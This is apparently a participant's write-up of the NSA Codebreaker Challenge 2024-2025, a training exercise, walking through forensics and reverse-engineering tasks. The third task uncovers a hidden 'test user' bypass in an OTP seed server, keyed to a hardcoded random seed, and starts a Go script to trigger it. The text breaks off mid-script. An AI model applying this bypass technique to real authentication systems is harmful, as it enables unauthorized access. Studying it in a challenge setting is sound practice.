


# Background Information

Hey! I recently completed the NSA Codebreaker Challenge 2024-2025. This challenge was truly a formative experience for me, not only did I build my reverse engineering skills, but it taught me a lot about being persistent and attempting what you view as difficult, even if it seems impossible. In this writeup, I'll just go over the general solve methodology I had in each task and some funny moments as well.

## Task 0

> As a participant in the Codebreaker Challenge, you are invited to join the New Mexico Tech Codebreaker Challenge Community of Practice! This is the 3rd year that NMT has partnered with the NSA Codebreaker Challenge. Its purpose remains to give students interested in cybersecurity a place to talk about Codebreaker, cybersecurity, and other related topics.
>
> To complete this task, first, join the Discord server. 
>
> Once there, type /task0 in the #bot-commands channel. Follow the prompts and paste the answer the bot gives you below.

This was the most difficult task IMO. You have to copy and paste a code into a discord chat, then paste the response back into the solver. Yikes.

## Task 1 - No Token Left Behind

> Aaliyah is showing you how Intelligence Analysts work. She pulls up a piece of intelligence she thought was interesting. It shows that APTs are interested in acquiring hardware tokens used for accessing DIB networks. Those are generally controlled items, how could the APT get a hold of one of those?
>
> DoD sometimes sends copies of procurement records for controlled items to the NSA for analysis. Aaliyah pulls up the records but realizes it’s in a file format she’s not familiar with. Can you help her look for anything suspicious?
>
> If DIB companies are being actively targeted by an adversary the NSA needs to know about it so they can help mitigate the threat.
>
> Help Aaliyah determine the outlying activity in the dataset given

Ok, to start, we are provided with a `shipping.db` file, which are the DoD procurement records we are supposed to search through to find the suspicious record.

The file doesn't open on sqlite viewer or anything, so we can try just extracting the important stuff we need.

If we run `file`, we can see at the end there are some `PK` stuff. 

```bash
mimetypePK
Configurations2/toolpanel/PK
Configurations2/progressbar/PK
Configurations2/statusbar/PK
Configurations2/toolbar/PK
Configurations2/floater/PK
Configurations2/popupmenu/PK
Configurations2/menubar/PK
manifest.rdfPK
meta.xmlPK
styles.xmlPK
content.xmlPK
settings.xmlPK
Thumbnails/thumbnail.pngPK
META-INF/manifest.xmlPK
```
`content.xml` looks interesting, so let's extract that and sift through it. There's a bunch of entries, with each one having the company name, location, email(s), phone number(s), and the order ID. 

Example below:
```
<text:p>Titan Aerospace Systems</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>316 Hawkins Isle Apt. 275, New Steveland, AR 73351</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>Jessica Thomas</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>###-###-4680</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>jessicat@titanaerospace.systems</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>Ryan Perez</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>###-###-9665</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>ryanp@titanaerospace.systems</text:p></table:table-cell><table:table-cell office:value-type="string" calcext:value-type="string"><text:p>TIT0672027</text:p>
```
After some really incorrect thinking, and some guessing, I wrote this dumb script that would just get locations since I felt like that was the only place that might have been poisoned.

```python
from xml.etree import ElementTree as ET

# Load and parse the XML file
tree = ET.parse('content.xml')
root = tree.getroot()

# Define the XML namespaces
namespaces = {
    'office': 'urn:oasis:names:tc:opendocument:xmlns:office:1.0',
    'table': 'urn:oasis:names:tc:opendocument:xmlns:table:1.0',
    'text': 'urn:oasis:names:tc:opendocument:xmlns:text:1.0',
}

# List of prefixes to check
IDS = ["SEN", "TIT", "AER", "AEG", "WIL", "IRO", "GUA", "PHO", "CER", "SPR", "VAN", "TER", "ATL"]

# Open a file for writing
with open('output.txt', 'w') as output_file:
    # Iterate over each <table:table-row>
    for row in root.findall('.//table:table-row', namespaces):
        for cell in row.findall('.//table:table-cell', namespaces):
            text_elem = cell.find('.//text:p', namespaces)
            if text_elem is not None and text_elem.text:  # Check if the <text:p> element has text
                text_content = text_elem.text.strip()  # Strip whitespace

                # Check if the text starts with any of the prefixes in IDS
                if text_content not in IDS:
                    if len(text_content) >= 3 and text_content[:3].isdigit():
                        # Write the text_content to the file
                        if not any(id in text_content for id in IDS):
                            output_file.write(f"{text_content}\n")
```
I then used `cat output.txt | uniq -c` to just get unique bs and guess what! I found a unique location:

`1 269 Snyder Squares Apt. 844, Lake Brianberg, MI 86031`

I then used the search function on vscode to get the order id that has the unique location.

`GUA0935262`

That gives us the correct answer!

## Task 2 - Driving Me Crazy

> Having contacted the NSA liaison at the FBI, you learn that a facility at this address is already on a FBI watchlist for suspected criminal activity.
>
> With this tip, the FBI acquires a warrant and raids the location.
>
> Inside they find the empty boxes of programmable OTP tokens, but the location appears to be abandoned. We're concerned about what this APT is up to! These hardware tokens are used to secure networks used by Defense Industrial Base companies that produce critical military hardware.
>
> The FBI sends the NSA a cache of other equipment found at the site. It is quickly assigned to an NSA forensics team. Your friend Barry enrolled in the Intrusion Analyst Skill Development Program and is touring with that team, so you message him to get the scoop. Barry tells you that a bunch of hard drives came back with the equipment, but most appear to be securely wiped. He managed to find a drive containing what might be some backups that they forgot to destroy, though he doesn't immediately recognize the data. Eager to help, you ask him to send you a zip containing a copy of the supposed backup files so that you can take a look at it.
>
> If we could recover files from the drives, it might tell us what the APT is up to. Provide a list of unique SHA256 hashes of all files you were able to find from the backups. Example (2 unique hashes): 

We are given a disk backup file: `archive.tar.bz2`, so let's try and open it up.

We're given a ton of files, and honestly this is where my extremely stupid brain does stupid stuff.

So when I saw `logseq`, my mind completely fixated on that for the majority of the challenge. I know the intended way to solve was to restore the ZFS snapshot that was mentioned a million times within the data of the challenge, but my stupid brain decided that the best way to solve this would be to extract the plaintext of the entries itself, then put it into a file, then hash it... you can imagine how tedious this gets when you have 20 data files that actually store around 5-7 entries. So around 100 files I created manually.

Eventually, this became a copy + paste game, where I would just paste a hash into the solver just to make sure it would say `your hashes are correct, but you are missing some` just to verify if the data I copy and pasted was correct. Pretty braindead.

Eventually I had to use `zfs` in order to get like 2 log files that were refusing to produce the right hash, and when I saw the entire snapshot with all the entries created, that's when I realized I was an idiot.

I use `sha256sum` to produce all the hashes through a bash loop, and paste it into the solver.

After like 3 hours, I got it right! This challenge really drove me crazy! Onto the next!


## Task 3 - How did they get in?

> Great work finding those files! Barry shares the files you extracted with the blue team who share it back to Aaliyah and her team. As a first step, she ran strings across all the files found and noticed a reference to a known DIB, “Guardian Armaments” She begins connecting some dots and wonders if there is a connection between the software and the hardware tokens. But what is it used for and is there a viable threat to Guardian Armaments (GA)?
>
> She knows the Malware Reverse Engineers are experts at taking software apart and figuring out what it's doing. Aaliyah reaches out to them and keeps you in the loop. Looking at the email, you realize your friend Ceylan is touring on that team! She is on her first tour of the Computer Network Operations Development Program
>
> Barry opens up a group chat with three of you. He wants to see the outcome of the work you two have already contributed to. Ceylan shares her screen with you as she begins to reverse the software. You and Barry grab some coffee and knuckle down to help.
>
> Figure out how the APT would use this software to their benefit

This was honestly the biggest learning experience I had during this competition. I've done reverse engineering before, but this task really taught me to build a methodology to solving.

We are provided with a `server` binary and an image with a name: `jasper_0`. There's not a huge connection to the image and the binary until MUCH later. Opening up the binary... it's a golang binary. 

Honestly golang binaries are getting a little bit easier to read now as dissassemblers get more advanced and as golang is being used more by malware authors due to its simpilicity and wide area of use. But sometimes it's still difficult to try and understand what's going on due to mess ups decompilers go through when going through go code.

### Communicating with the program

Let's try running the program first, just see what it does before looking inside.

```
Starting the Guardian Armaments OTP seed generation service!  Please ensure that this software can reach the authentication service to register any generated seeds!  Otherwise your token will not authenticate you to the network after you program it with this seed{"time":"2024-12-23T22:30:58.387068435-05:00","level":"INFO","msg":"Connected to auth server"}
{"time":"2024-12-23T22:30:58.387750669-05:00","level":"ERROR","msg":"Failed to ping the auth service","ping_response":null,"err":"rpc error: code = Unavailable desc = connection error: desc = \"transport: Error while dialing: dial tcp 127.0.0.1:50052: connect: connection refused\""}
```

So it's a OTP generator. Basically, a OTP is a "one-time password" that authenticates you to a service once. Essentially it generates a random number called a "seed" that will be used by the OTP service to generate the sensitive one time password for people to authenticate with. Think of it as sort of a disposible badge of some sort. 

Ok, let's also try running the program with the debug option and see what happens. 

```bash
jake@computer:~/nsa-cbc/task3$ ./server -loglevel debug
Starting the Guardian Armaments OTP seed generation service!  Please ensure that this software can reach the authentication service to register any generated seeds!  Otherwise your token will not authenticate you to the network after you program it with this seed{"time":"2024-12-23T22:29:01.659480992-05:00","level":"INFO","msg":"Connected to auth server"}
{"time":"2024-12-23T22:29:01.660171541-05:00","level":"ERROR","msg":"Failed to ping the auth service","ping_response":null,"err":"rpc error: code = Unavailable desc = connection error: desc = \"transport: Error while dialing: dial tcp 127.0.0.1:50052: connect: connection refused\""}
```
Our assumptions were correct. It tries to ping an auth service at port 50052 before crashing due to no response. 

Since I wasn't provided an auth service, I just created an auth service that would just communicate basic stuff the server wanted, since I only cared about what the server outputs.

After careful analysis (aka messing around), I found through implementing a basic tcp server at 50052 that the server was listening to HTTP2 requests! That means I can't use basic python `requests` library to carry me!

So I then implemented an http2 ping thing from chatgpt. Still didn't work... At this point I was getting pissed off, and decided to just read the request byte data or something, just anything to get me more info.

```
<RequestReceived stream_id:1, headers:[(b':method', b'POST'), (b':scheme', b'http'), (b':path', b'/auth_service.AuthService/Ping'), (b':authority', b'127.0.0.1:50052'), (b'content-type', b'application/grpc'), (b'user-agent', b'grpc-go/1.64.0'), (b'te', b'trailers')]>
```

After doing a lot of chatgpt and research, thankfully I discovered that this program was using grpc (as shown above)! It only took like a week of bashing my head in to figure that one out! Ok, so let's build a protobuf server that fulfills the requirements of the golang binary.

### Reversing the binary

**NOTICE: A lot of the reversed code will be sorta disjointed just by the nature of how long the reversed code is**

First off, let's identify major functionalities of the server.

We see the basic ping function that we need to perform:

```
undefined8 main.(*seedGenerationServer).Ping(undefined8 param_1,undefined8 param_2,undefined8 param_3,undefined8 param_4,undefined8 param_5,undefined8 param_6,undefined8 param_7,undefined8 param_8,undefined8 param_9,undefined8 param_10){
  long *plVar1;
  undefined8 in_RAX;
  undefined8 extraout_RDX;
  undefined8 unaff_RBX;
  long unaff_R14;
  undefined auStack_38 [48];
  
  while (&stack0x00000000 <= *(undefined **)(unaff_R14 + 0x10)) {
    param_7 = in_RAX;
    param_8 = unaff_RBX;
    param_9 = param_4;
    param_10 = param_1;
    runtime.morestack_noctxt();
    in_RAX = param_7;
    param_4 = param_9;
    unaff_RBX = param_8;
    param_1 = param_10;
    param_3 = extraout_RDX;
  }
  plVar1 = *(long **)(unaff_R14 + 0x20);
  if ((plVar1 != (long *)0x0) && ((undefined8 *)*plVar1 == &param_7)) {
    *plVar1 = (long)auStack_38;
  }
  google.golang.org/grpc/status.Errorf(0,0,param_3,0x1b,0);
  return 0;
}
```

The `grpc` package also verifies the usage of the protobuf protocol. For more information on grpc read [here](https://grpc.io/docs/languages/python/quickstart/)

Next, looking for the authentication protocol:

```
long main.(*SeedgenAuthClient).auth(long param_1,undefined8 param_2,undefined8 param_3,ulong param_4,char *param_5,long param_6){
  long *in_RAX;
  long lVar1;
  ulong uVar2;
  undefined8 *puVar3;
  ulong uVar4;
  long unaff_RBX;
  long *plVar5;
  long unaff_R14;
  uint uVar6;
  double __x;
  double dVar7;
  context.backgroundCtx .autotmp_36;
  string username_spill;
  string password_spill;
  []bool stress_spill;
  undefined **ppuStack_20;
  undefined8 *local_18;
  undefined8 uStack_10;
  
  while (&ppuStack_20 <= *(undefined ****)(unaff_R14 + 0x10)) {
    runtime.morestack_noctxt();
  }
  in_RAX[3] = in_RAX[3] + 1;
  uVar4 = in_RAX[2];
  lVar1 = math/rand.Int63();
  in_RAX[2] = lVar1;
  runtime.convTstring();
  ppuStack_20 = &PTR_DAT_0095c9a0;
  uStack_10 = runtime.convTstring();
  local_18 = &DAT_008075e0;
  dVar7 = log/slog.(*Logger).log(__x);
  if ((param_6 != 0) && (*param_5 == '\0')) {
    return in_RAX[2];
  }
  uVar2 = 0;
  do {
    if ((long)param_4 <= (long)uVar2) {
      if ((uint)uVar4 == 0x3bd2383) {
        log/slog.(*Logger).log(dVar7);
        return in_RAX[2];
      }
      plVar5 = (long *)0x0;
      log/slog.(*Logger).log(dVar7);
      lVar1 = runtime.newobject();
      *(ulong *)(lVar1 + 0x30) = param_4;
      if (runtime.writeBarrier._0_4_ != 0) {
        lVar1 = runtime.gcWriteBarrier1();
        *plVar5 = unaff_RBX;
      }
      *(long *)(lVar1 + 0x28) = unaff_RBX;
      *(undefined8 *)(lVar1 + 0x40) = param_2;
      if (runtime.writeBarrier._0_4_ != 0) {
        lVar1 = runtime.gcWriteBarrier1();
        *plVar5 = param_1;
      }
      *(long *)(lVar1 + 0x38) = param_1;
      dVar7 = (double)(**(code **)(*in_RAX + 0x18))(lVar1,0,in_RAX,&runtime.zerobase,0,0);
      log/slog.(*Logger).log(dVar7);
      puVar3 = (undefined8 *)runtime.newobject();
      puVar3[1] = 0x16;
      *puVar3 = &DAT_008b9c8b;
      return -1;
    }
    if ((long)param_4 < (long)(uVar2 + 4)) {
      lVar1 = param_4 - uVar2;
      if (lVar1 == 1) {
        if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        uVar6 = (uint)*(byte *)(unaff_RBX + uVar2);
      }
      else if (lVar1 == 2) {
        if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        if (param_4 <= uVar2 + 1) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        uVar6 = (uint)*(ushort *)(unaff_RBX + uVar2);
      }
      else if (lVar1 == 3) {
        if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        if (param_4 <= uVar2 + 1) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        if (param_4 <= uVar2 + 2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        uVar6 = (uint)CONCAT12(*(undefined *)(uVar2 + 2 + unaff_RBX),
                               *(undefined2 *)(unaff_RBX + uVar2));
      }
      else {
        uVar6 = 0;
      }
    }
    else {
      if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      if (param_4 <= uVar2 + 1) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      if (param_4 <= uVar2 + 2) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      if (param_4 <= uVar2 + 3) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      uVar6 = *(uint *)(unaff_RBX + uVar2);
    }
    uVar4 = (ulong)((uint)uVar4 ^ uVar6);
    uVar2 = uVar2 + 4;
  } while( true );
}
```

Interestingly, theres no validation of the password, which we assume is handled by the auth server. Since we control the auth server, we don't have to worry about the validity of the password!

The auth function gets the username and password from the protobuf request, and we see very interesting things!

Beyond the functionality of basic user authentication, there's the existence of the **test** user, which is probably what the hackers used to infiltrate. The test user is hidden behind some math, seemingly dependent on the username entirely. We also see a function call to math/rand.Int63(). We'll see the importance of that later.

Namely, this section of the code:

```
if ((uint)uVar4 == 0x3bd2383) {
        log/slog.(*Logger).log(dVar7);
        return in_RAX[2];
      }
```

So we have a test user, but let's see what other functionality we can find.

We also have a `getSeed()` function, which most likely handles the OTP seed. It links with auth as a getSeed request will trigger the auth method to authenticate the user.

```
void main.(*seedGenerationServer).GetSeed(long param_1)

{
  long *in_RAX;
  undefined8 uVar1;
  long lVar2;
  undefined8 uVar3;
  uintptr *puVar4;
  undefined8 *puVar5;
  long unaff_R14;
  double __x;
  double __x_00;
  double __x_01;
  double __x_02;
  context.backgroundCtx .autotmp_32;
  context.Context ctx_spill;
  otp/seedgen.GetSeedRequest *req_spill;
  log/slog.Logger *local_138;
  uintptr *local_130;
  undefined8 *local_128;
  undefined **ppuStack_120;
  undefined8 *local_118;
  undefined8 uStack_110;
  undefined8 *local_108;
  undefined **ppuStack_100;
  undefined *local_f8;
  undefined8 uStack_f0;
  undefined8 *local_e8;
  undefined **ppuStack_e0;
  undefined8 *local_d8;
  undefined8 uStack_d0;
  undefined8 *local_c8;
  undefined **ppuStack_c0;
  undefined8 *local_b8;
  undefined8 uStack_b0;
  undefined8 *local_a8;
  undefined **ppuStack_a0;
  undefined8 *local_98;
  undefined8 uStack_90;
  undefined8 *local_88;
  undefined **ppuStack_80;
  undefined8 *local_78;
  undefined8 uStack_70;
  undefined8 *local_68;
  undefined **local_60;
  undefined8 *local_58;
  undefined8 local_50;
  undefined8 *local_48;
  undefined **local_40;
  undefined *local_38;
  undefined8 local_30;
  undefined8 *local_28;
  undefined **local_20;
  undefined *local_18;
  undefined8 local_10;
  
  while (&local_138 <= *(log/slog.Logger ***)(unaff_R14 + 0x10)) {
    runtime.morestack_noctxt();
  }
  local_138 = main.logger;
  local_a8 = &DAT_008075e0;
  ppuStack_a0 = &PTR_DAT_0095c990;
  uStack_90 = runtime.convTstring(param_1,*(undefined8 *)(param_1 + 0x28));
  local_98 = &DAT_008075e0;
  local_88 = &DAT_008075e0;
  ppuStack_80 = &PTR_DAT_0095c9a0;
  uStack_70 = runtime.convTstring();
  local_78 = &DAT_008075e0;
  log/slog.(*Logger).log(__x);
  lVar2 = *(long *)(param_1 + 0x30);
  uVar3 = *(undefined8 *)(param_1 + 0x38);
  uVar1 = main.(*SeedgenAuthClient).auth(uVar3,*(undefined8 *)(param_1 + 0x40),lVar2,lVar2,0,0);
  if (lVar2 != 0) {
    local_e8 = &DAT_008075e0;
    ppuStack_e0 = &PTR_DAT_0095c990;
    local_130 = (uintptr *)uVar3;
    uStack_d0 = runtime.convTstring();
    local_d8 = &DAT_008075e0;
    local_c8 = &DAT_008075e0;
    ppuStack_c0 = &PTR_DAT_0095c9a0;
    uStack_b0 = runtime.convTstring();
    local_b8 = &DAT_008075e0;
    log/slog.(*Logger).log(__x_02);
    lVar2 = runtime.newobject();
    *(undefined8 *)(lVar2 + 0x28) = 0xffffffffffffffff;
    *(undefined8 *)(lVar2 + 0x30) = 0xffffffffffffffff;
    return;
  }
  FUN_0046cdab(&local_88);
  local_68 = &DAT_008075e0;
  local_60 = &PTR_DAT_0095c990;
  local_50 = runtime.convTstring();
  local_58 = &DAT_008075e0;
  local_48 = &DAT_008075e0;
  local_40 = &PTR_DAT_0095c9b0;
  local_30 = runtime.convT64();
  local_38 = &DAT_00807820;
  local_28 = &DAT_008075e0;
  local_20 = &PTR_DAT_0095c9c0;
  local_10 = runtime.convT64();
  local_18 = &DAT_00807820;
  puVar5 = (undefined8 *)&DAT_00000006;
  log/slog.(*Logger).log(__x_00);
  lVar2 = runtime.newobject();
  uVar3 = *(undefined8 *)(param_1 + 0x28);
  *(undefined8 *)(lVar2 + 0x30) = *(undefined8 *)(param_1 + 0x30);
  if (runtime.writeBarrier._0_4_ != 0) {
    lVar2 = runtime.gcWriteBarrier1();
    *puVar5 = uVar3;
  }
  *(undefined8 *)(lVar2 + 0x28) = uVar3;
  *(undefined8 *)(lVar2 + 0x38) = uVar1;
  puVar4 = &runtime.zerobase;
  uVar3 = (**(code **)(*in_RAX + 0x38))(lVar2,0);
  local_128 = &DAT_008075e0;
  ppuStack_120 = &PTR_DAT_0095c990;
  local_130 = puVar4;
  uStack_110 = runtime.convTstring();
  local_118 = &DAT_008075e0;
  local_108 = &DAT_008075e0;
  ppuStack_100 = &PTR_DAT_0095c9d0;
  local_f8 = &DAT_0085cc80;
  uStack_f0 = uVar3;
  log/slog.(*Logger).log(__x_01);
  lVar2 = runtime.newobject();
  *(undefined8 *)(lVar2 + 0x28) = 0xffffffffffffffff;
  *(undefined8 *)(lVar2 + 0x30) = 0xffffffffffffffff;
  return;
}
```

Nothing notable / discernable, so we'll just test the program out dynamically and see what goes on.

### Building the auth server

We know that we need to ensure that the server can ping the auth service. So first thing we need to build is the basic responder for the ping service.

Using the reference to [grpc](https://grpc.io/docs/languages/python/quickstart/), we build the basic functionality for the ping request/response.

A lot of the responses are kinda just bs. The process behind these "message" is that we kinda have to match the binary's method name and then I used chatgpt to match up the reponse method and stuff. (tbh i kinda still dont rly remember the process behind this)

Now to build the auth server in python:

```
import grpc
from concurrent import futures
import service_pb2
import service_pb2_grpc

class AuthService(service_pb2_grpc.AuthServiceServicer):
    def Ping(self, request, context):
        print(f"Received Ping request with message: {request.message}")
        
        # Create a gRPC client to send data to the process on port 50051
        

        response = service_pb2.PingResponse()
        response.response_message = f"Pong: {request.message}"
        
        return response
    #
    def Authenticate(self, request, context):
        # Perform authentication logic directly within this service
        return service_pb2.AuthenticateResponse(success=True)
        

    def RegisterOTPSeed(self, request, context):
        print(f"Registering OTP seed for user: {request}")
        return service_pb2.RegisterOTPSeedResponse()
    
    
    
    def VerifyOTP(self, request, context):
        print(f"Verifying OTP for user: {request.user_id}")
        if request.otp_code == "123456":
            return service_pb2.VerifyOTPResponse(message="OTP Verified")
        else:
            return service_pb2.VerifyOTPResponse(message="Invalid OTP")
    
    def RefreshToken(self, request, context):
        print(f"Refreshing token: {request.refresh_token}")
        if request.refresh_token == "old_refresh_token":
            return service_pb2.RefreshTokenResponse(message="Token refreshed", new_token="new_token_456")
        else:
            return service_pb2.RefreshTokenResponse(message="Invalid refresh token", new_token="")
    
# ALMOST THERE!!!!!!

def serve():
    server = grpc.server(futures.ThreadPoolExecutor(max_workers=10))
    service_pb2_grpc.add_AuthServiceServicer_to_server(AuthService(), server)
    
    # Start the server on port 50052
    server.add_insecure_port('[::]:50052')
    server.start()
    print("Server running on port 50052...")
    
    try:
        server.wait_for_termination()
    except Exception as e:
        print(f"Server encountered an error: {e}")
    finally:
        server.stop(0)

if __name__ == '__main__':
    serve()
```

Make sure to install ```pip install grpcio-tools```, then use ```$ python -m grpc_tools.protoc -I../../protos --python_out=. --pyi_out=. --grpc_python_out=. ../../protos/route_guide.proto ``` and replace with your own scripts and proto output stuff to create the auth server's proto files and helper .py files that the script imports.

### Getting a test user

Ok, we need to create a grpc client to send the username / password to the server and auth service. 

Using chatgpt I created a really quick ping script to send the username and password

```
import grpc
import ping_pb2_grpc
import ping_pb2
from tqdm import tqdm
from multiprocessing import Pool, cpu_count

# Function to send gRPC request
def send_request(_):
    channel = grpc.insecure_channel('localhost:50051')
    stub = ping_pb2_grpc.SeedGenerationServiceStub(channel)
    return stub.GetSeed(ping_pb2.GetSeedRequest(username='test', password=b''))

def run():
    # Use multiprocessing to parallelize requests
    with Pool(cpu_count()) as pool:
        list(tqdm(pool.imap(send_request, range(1)), total=1))

if __name__ == '__main__':
    run()
```

Sending it, we get the following log from the server:

```
jake@computer:~/nsa-cbc/task3$ ./server -loglevel debug
Starting the Guardian Armaments OTP seed generation service!  Please ensure that this software can reach the authentication service to register any generated seeds!  Otherwise your token will not authenticate you to the network after you program it with this seed{"time":"2024-12-29T21:20:52.779773573-05:00","level":"INFO","msg":"Connected to auth server"}
{"time":"2024-12-29T21:20:52.781323953-05:00","level":"DEBUG","msg":"Auth Service Pong ","pong":0}
{"time":"2024-12-29T21:20:52.781343841-05:00","level":"INFO","msg":"Seedgen Server running on port 50051"}
{"time":"2024-12-29T21:20:55.512688016-05:00","level":"DEBUG","msg":"got a GetSeed","username":"test","password":"test"}
{"time":"2024-12-29T21:20:55.512709787-05:00","level":"INFO","msg":"Authenticating","username":"test","password":"test"}
{"time":"2024-12-29T21:20:55.512715758-05:00","level":"DEBUG","msg":"test user authenticated, but has no privileges in network so no need to authenticate with Auth Service!"}
{"time":"2024-12-29T21:20:55.512720637-05:00","level":"INFO","msg":"Registered OTP seed with authentication service","username":"test","seed":2896942161053301524,"count":1}
```

Ok, so just using test makes it a `test` user. But how? Well, it's based on the algorithm behind the "authentication" of the test user.

```
do {
    if ((long)param_4 <= (long)uVar2) {
      if ((uint)uVar4 == 0x3bd2383) {
        log/slog.(*Logger).log(dVar7);
        return in_RAX[2];
      }
      plVar5 = (long *)0x0;
      log/slog.(*Logger).log(dVar7);
      lVar1 = runtime.newobject();
      *(ulong *)(lVar1 + 0x30) = param_4;
      if (runtime.writeBarrier._0_4_ != 0) {
        lVar1 = runtime.gcWriteBarrier1();
        *plVar5 = unaff_RBX;
      }
      *(long *)(lVar1 + 0x28) = unaff_RBX;
      *(undefined8 *)(lVar1 + 0x40) = param_2;
      if (runtime.writeBarrier._0_4_ != 0) {
        lVar1 = runtime.gcWriteBarrier1();
        *plVar5 = param_1;
      }
      *(long *)(lVar1 + 0x38) = param_1;
      dVar7 = (double)(**(code **)(*in_RAX + 0x18))(lVar1,0,in_RAX,&runtime.zerobase,0,0);
      log/slog.(*Logger).log(dVar7);
      puVar3 = (undefined8 *)runtime.newobject();
      puVar3[1] = 0x16;
      *puVar3 = &DAT_008b9c8b;
      return -1;
    }
    if ((long)param_4 < (long)(uVar2 + 4)) {
      lVar1 = param_4 - uVar2;
      if (lVar1 == 1) {
        if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        uVar6 = (uint)*(byte *)(unaff_RBX + uVar2);
      }
      else if (lVar1 == 2) {
        if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        if (param_4 <= uVar2 + 1) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        uVar6 = (uint)*(ushort *)(unaff_RBX + uVar2);
      }
      else if (lVar1 == 3) {
        if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        if (param_4 <= uVar2 + 1) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        if (param_4 <= uVar2 + 2) {
                    /* WARNING: Subroutine does not return */
          runtime.panicIndex();
        }
        uVar6 = (uint)CONCAT12(*(undefined *)(uVar2 + 2 + unaff_RBX),
                               *(undefined2 *)(unaff_RBX + uVar2));
      }
      else {
        uVar6 = 0;
      }
    }
    else {
      if (param_4 <= uVar2) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      if (param_4 <= uVar2 + 1) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      if (param_4 <= uVar2 + 2) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      if (param_4 <= uVar2 + 3) {
                    /* WARNING: Subroutine does not return */
        runtime.panicIndex();
      }
      uVar6 = *(uint *)(unaff_RBX + uVar2);
    }
    uVar4 = (ulong)((uint)uVar4 ^ uVar6);
    uVar2 = uVar2 + 4;
  } while( true );
```

So essentially, the username is broken into 4-byte chunks, and is XOR'd by the random math value `lVar1 = math/rand.Int63();`. Based on go's [math/rand.Int63()](https://pkg.go.dev/math/rand#Int63) function, the function returns a 63-byte pseudorandom number. This number is XOR'd by the chunks iteratively through the length of the string, and if the result is **0x3bd2383**, the user is authenticated as a `test` user. Wait... a 63 byte number is a really big number! What if that is the value of the seed! 

If this is the case, the random number generated by the seed must have it's own seed due to producing `linear` values (it produces the same "random" values each time the server runs). So we need to search for a hardcoded seed value that seeds math.rand(). 

Uhhh unfortuntately binja and ghidra don't do this job, so it took IDA free to find out the value of the seed. Thankfully we find it in `main_NewSeedgenAuthClient`. Yeah so major tip for reversing is if you can't find it in your primary decompiler just use a different one.

```
 math_rand_Seed(0x224284B5FC90ALL);
```

A small detail is that the pseudo random numbers generated in a go script with that math.rand seed will be -1 off what the binary produces. 

Ok so since we already have test, we can just submit and be done right? Unfortunately nooooooo it's not that easy. This step was actually the hardest thing to understand in the task. 

Remember the image with `jasper_0`? I didn't really understand a connection at first, but apparently that was a big hint that the user we need to pass as a `test` user is a username that has `jasper_0`. Unfortunately, jasper_0 just doesn't give a feasible test bypass even after like a million iterations. Unfortunately I don't have a quantum computer or can wait until the heat death of the universe. So I had to basically try whatever related to jasper_0.

Thankfully after a few grueling 3am sessions and get-helps, NSA danny came in clutch with a revelation: **Keep in mind info from previous tasks may help with later ones.** Hmmmm. Well I remember task2 had some detail on TOTP (time-based one time pad) but that's unlikely at this point. I then decided to go all the way back to task1. I searched jasper_0 and guessed what? It showed up as **jasper_06833**!!! Ok so we have the actual username!

Unfortunately I'm lazy + impatient af and instead of having to wait for the binary verify the username, I'll just do it myself. So I (+ little bit of ai) coded a very nice go script that will just authenticate to a test user based on the algorithm:

```
package main

import (
	"encoding/binary"
	"fmt"
	"math/rand"
)

func main() {
	// Initialize currentRand, seed, and username
	seed := int64(602705435281674)
	r := rand.New(rand.NewSource(seed))
	v7Target := uint64(62727043)
	for i:=0; i < 1000000000; i++ {
		currentRand := uint64(r.Int63()) // Initial v7 = currentRand
		username := []byte("jasper_06833") // Replace with desired username

